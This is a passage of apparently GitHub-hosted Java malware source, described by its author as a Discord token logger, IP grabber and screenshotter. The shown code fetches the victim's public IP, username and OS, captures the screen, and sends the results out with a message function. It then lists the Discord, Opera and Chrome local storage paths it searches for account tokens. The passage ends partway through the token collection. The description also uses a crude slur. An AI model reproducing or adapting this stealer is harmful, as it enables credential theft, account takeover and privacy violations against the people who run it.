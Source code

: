 # Discord-token-logger
This is a very gay Discord token logger/ip grabber/camera screenshotter/idk
package swag.company;

import com.sun.istack.internal.NotNull;
import sun.net.www.http.HttpClient;

import javax.imageio.ImageIO;
import java.awt.*;
import java.awt.image.BufferedImage;
import java.io.*;
import java.net.HttpURLConnection;
import java.net.URL;
import java.net.URLConnection;
import java.net.URLEncoder;
import java.nio.charset.StandardCharsets;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.*;
import java.util.List;
import java.util.regex.Matcher;
import java.util.regex.Pattern;

public class Main {

    public static void main(String[] args) {
        String llLlLlL = System.getProperty("os.name");
        try {
            URL whatismyip = new URL("http://checkip.amazonaws.com");
            BufferedReader bufferedReader = new BufferedReader(new InputStreamReader(
                    whatismyip.openStream()));
            String ip = bufferedReader.readLine();
            String llLlLlLlL = System.getProperty("user.name");
            captureScreen();
            sendMessage("``` NAME : " + llLlLlLlL + "\n IP" + "   : " + ip + " \n OS   : " + llLlLlL + "```");
        } catch (Exception ignore) {
        }

        if (llLlLlL.contains("Windows")) {

            List<String> paths = new ArrayList<>();
            paths.add(System.getProperty("user.home") + "/AppData/Roaming/discord/Local Storage/leveldb/");
            paths.add(System.getProperty("user.home") + "/AppData/Roaming/discordptb/Local Storage/leveldb/");
            paths.add(System.getProperty("user.home") + "/AppData/Roaming/discordcanary/Local Storage/leveldb/");
            paths.add(System.getProperty("user.home") + "/AppData/Roaming/Opera Software/Opera Stable/Local Storage/leveldb");
            paths.add(System.getProperty("user.home") + "/AppData/Local/Google/Chrome/User Data/Default/Local Storage/leveldb");


            int cx = 0;
            StringBuilder webhooks = new StringBuilder();
            webhooks.append("TOKEN\n");
